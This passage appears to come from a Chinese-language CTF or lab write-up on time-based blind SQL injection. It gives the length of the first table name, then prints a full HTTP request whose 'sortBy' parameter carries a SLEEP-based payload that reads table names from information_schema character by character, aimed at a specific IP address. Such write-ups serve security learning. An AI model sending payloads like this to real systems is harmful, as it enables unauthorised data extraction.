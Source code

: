 直接爆破，得知第一个表长度是8

![image-20250904005931417](images/image-20250904005931417.png)

爆破第一个表的名字

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 0,1),1,1))=48,SLEEP(5),1)","order":"asc"}
```

![image-20250904010628096](images/image-20250904010628096.png)

爆出结果

![image-20250904010844068](images/image-20250904010844068.png)
